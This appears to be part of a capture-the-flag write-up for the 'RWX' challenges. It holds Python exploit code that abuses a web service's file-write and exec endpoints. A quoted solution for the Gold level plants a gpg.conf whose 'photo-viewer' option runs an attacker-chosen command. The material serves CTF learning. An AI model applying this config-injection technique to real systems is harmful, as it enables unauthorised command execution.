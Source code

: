 ```python
    params = {"filename": filename}  
    res = requests.post(f"{url}/write", params=params, data=content.encode())

    print("Status Code:", res.status_code)
    print("Response Body:\n\n--- res end ---", res.text)

p = """
#!/bin/sh

/would you be so kind to provide me with a flag
"""
write_file("/home/user/a",p)

# exec("sh ~/*") # too long
exec(". ~/a")
```

# Gold...

I was close to solving this. 

I tried all binaries of with size $3$ or less. I tried `pip` and others but found no vector. Lastly I went with `gpg`, but I could find a way for it to execute my file or any other method of executing the `would` binary

After the fact I found this japanese writeup:

[nanimokangaeteinai.hateblo.jp - RWX Gold](https://nanimokangaeteinai.hateblo.jp/entry/2025/03/10/041721#Misc-393-RWX---Gold-12-solves)

```python
import httpx
with httpx.Client(base_url='https://(省略)') as client:
    client.get('/exec?cmd=gpg')
    # client.post('/write?filename=/home/user/.gnupg/trustdb.gpg', data=open('trustdb.gpg','rb').read()) # 改めて検証したところ必要なかったので削除@2025-03-11
    client.post('/write?filename=/home/user/.gnupg/pubring.kbx', data=open('pubring.kbx','rb').read())
    client.post('/write?filename=/home/user/.gnupg/gpg.conf', data='''
list-keys
list-options show-photos
photo-viewer "/would 'you be so kind to provide me with a flag' > /tmp/nekochan"
'''.strip())
    client.get('/exec?cmd=gpg')
    r = client.get('/read?filename=/tmp/nekochan')
    print(r.text)
```
